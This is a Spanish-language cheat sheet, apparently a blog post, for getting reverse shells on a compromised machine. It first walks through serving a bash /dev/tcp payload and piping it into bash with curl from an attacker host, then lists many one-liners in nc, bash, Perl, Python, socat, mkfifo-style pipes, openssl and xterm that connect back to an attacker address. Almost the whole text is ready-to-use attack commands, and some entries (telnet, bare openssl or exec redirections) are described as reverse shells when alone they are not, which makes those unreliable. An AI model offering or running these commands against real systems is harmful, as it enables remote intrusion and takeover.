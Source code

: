 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    ```
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```
    	nc -nlvp 443 
    ```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    ```
    	nc -e /bin/sh X.X.X.X 443
    ```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
- Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
---

- Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
- El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    ```
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    ```
- Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
- El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    ```
    	ssh -R 443:localhost:443 user@X.X.X.X  
    ```
- Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	telnet X.X.X.X 443
    ```
- Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    ```

- Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    ```

- Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	openssl s_client -quiet -connect X.X.X.X:443
    ```

- Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	exec 5<>/dev/tcp/X.X.X.X/443
    ```

- Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    ```
    	xterm -display X.X.X.X:0
    ```
